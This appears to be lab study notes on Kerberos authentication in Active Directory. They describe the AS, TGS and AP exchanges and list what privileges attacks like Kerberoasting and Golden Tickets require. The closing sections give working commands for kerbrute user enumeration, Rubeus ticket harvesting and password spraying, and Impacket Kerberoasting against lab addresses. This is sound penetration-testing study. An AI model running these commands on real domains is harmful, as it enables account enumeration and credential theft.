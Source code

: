 AS-REQ: The first step is for the user to encrypt a timestamp NT hash and send it to the AS. The KDC attempts to decrypt the timestamp using the NT hash from the user, if successful the KDC will issue a TGT as well as a session key for the user.

## TGT

In order to understand how the service tickets get created and validated, we need to start with where the tickets come from; the TGT is provided by the user to the KDC, in return, the KDC validates the TGT and returns a service ticket.

## ST

Two parts:

- Service portion: User details, session key, encrypts the ticket with the service account NTLM hash
- User portion: Validity timestamp, session key, encrypts with the tgt session key

## Kerberos Authentication Overview

AS-REQ - 1.) The client requests an Authentication Ticket or Ticket Granting Ticket (TGT).
AS-REP - 2.) The Key Distribution Center verifies the client and sends back an encrypted TGT.
TGS-REQ - 3.) The client sends the encrypted TGT to the Ticket Granting Server (TGS) with the Service Principal Name (SPN) of the service the client wants to access.
TGS-REP - 4.) The Key Distribution Center (KDC) verifies the TGT of the user and that the user has access to the service, then sends a valid session key for the service to the client.
AP-REQ - 5.) The client requests the service and sends the valid session key to prove the user has access.
AP-REP - 6.) The service grants access

## Attack privilege requirements

Kerbrute Enumeration - No domain access required
Pass the Ticket - Access as a user to the domain required
Kerberoasting - Access as any user required
AS-REP Roasting - Access as any user required
Golden Ticket - Full domain compromise (domain admin) required
Silver Ticket - Service hash required
Skeleton Key - Full domain compromise (domain admin) required

## Enumeration

Kerbrute = https://github.com/ropnop/kerbrute/releases
User.txt = https://github.com/Cryilllic/Active-Directory-Wordlists/blob/master/User.txt
`kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local /usr/share/wordlists/AD/User.txt`

## Harvesting tickets

`Rubeus.exe harvest /interval:30`
`echo 10.10.183.221 CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts`
`Rubeus.exe brute /password:Password1 /noticket`
OR remote
`sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.131.2 -request`
